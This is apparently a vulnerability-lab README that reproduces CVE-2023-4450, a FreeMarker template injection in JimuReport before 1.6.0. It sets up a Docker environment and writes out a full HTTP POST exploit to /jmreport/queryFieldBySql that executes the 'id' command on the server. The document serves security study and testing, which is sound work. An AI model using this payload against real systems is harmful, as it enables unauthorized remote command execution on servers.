

# JimuReport FreeMarker Server Side Template Injection RCE (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JimuReport is a open source visualization report platform. In the version prior to 1.6.0, there is a FreeMarker server side template injection (SSTI) issue that is able to execute arbitrary commands.

References:

- <https://github.com/advisories/GHSA-j8h5-8rrr-m6j9>
- <https://whoopsunix.com/docs/java/named%20module/>

## Vulnerable Environment

Execute following command to start a JimuReport 1.6.0 server:

```
docker compose up -d
```

Wait a few seconds and you can see the index page of JimuReport on `http://your-ip:8085`.

## Exploit

Send the following request to execute the FreeMarker template `<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`:

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

The `id` command has been executed successfully:


